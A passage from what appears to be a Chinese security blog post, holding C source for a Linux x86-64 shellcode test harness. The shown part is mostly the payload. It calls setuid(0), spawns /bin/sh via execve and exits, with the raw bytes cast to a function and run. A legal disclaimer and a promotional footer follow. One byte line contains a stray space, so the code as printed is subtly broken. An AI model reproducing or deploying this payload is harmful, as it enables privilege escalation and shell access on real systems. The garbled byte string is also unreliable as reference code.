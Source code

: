       16.         "pushq  %rdi; \n\t"
    
      17.         "movq   %rsp,%rsi; \n\t"
    
      18.         "mov    $0x3b,%al; \n\t"
    
      19.         "syscall ; \n\t"
    
      20.         "pushq  $0x1 ; \n\t"
    
      21.         "pop    %rdi ; \n\t"
    
      22.         "pushq  $0x3c ; \n\t"
    
      23.         "pop    %rax ; \n\t"
    
      24.         "syscall  ; \n\t"
    
      25. );
    
      26. }
    
      27. */
    
      28. main() {
    
      29.         char shellcode[] =
    
      30.         "\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62"
    
      31.         "\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31"
    
      32.         "\xc0\x50\x57\x48\x89\xe6 \xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c"
    
      33.         "\x58\x0f\x05";
    
      34.         (*(void (*)()) shellcode)();
    
      35. }
    
      36.   37. 2009-05-14
    
      38. evil.xi4oyu
    
    
    

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

![](https://gitee.com/fuli009/images/raw/master/public/20230714175321.png)  

 **没看够~？欢迎关注！**

  

  

 **分享本文到朋友圈，可以凭截图找老师领取**

上千 **教程+工具+交流群+靶场账号** 哦



![](https://gitee.com/fuli009/images/raw/master/public/20230714175308.png)
